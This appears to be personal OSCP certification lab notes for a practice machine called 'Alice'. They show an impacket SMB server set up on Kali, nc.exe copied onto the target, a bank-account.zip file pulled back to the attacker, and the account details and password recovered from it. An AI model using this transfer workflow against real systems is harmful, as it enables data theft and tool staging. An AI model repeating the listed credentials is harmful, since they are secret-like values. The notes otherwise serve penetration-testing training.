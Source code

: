 # OSCP
## Lab Machines
### Alice 10.11.1.5

On Kali:
```
impacket-smbserver richeeta .
```
to create the SMB server.

On Alice:
```
net use * \\IP\\richeeta
```

Then use:
```
copy z:\nc.exe # This will bring nc.exe from Kali to Alice
copy c:\bank-account.zip z:\bank-account.zip # This will move bank-account.zip from Alice to Kali
```

Bank	Gold Swiss
Acct #	2342364-KIETGGE-298074
SWIDF ID	swisgi
Reg Username	bobw@acme.local
Acct Password	3v1lp@ss
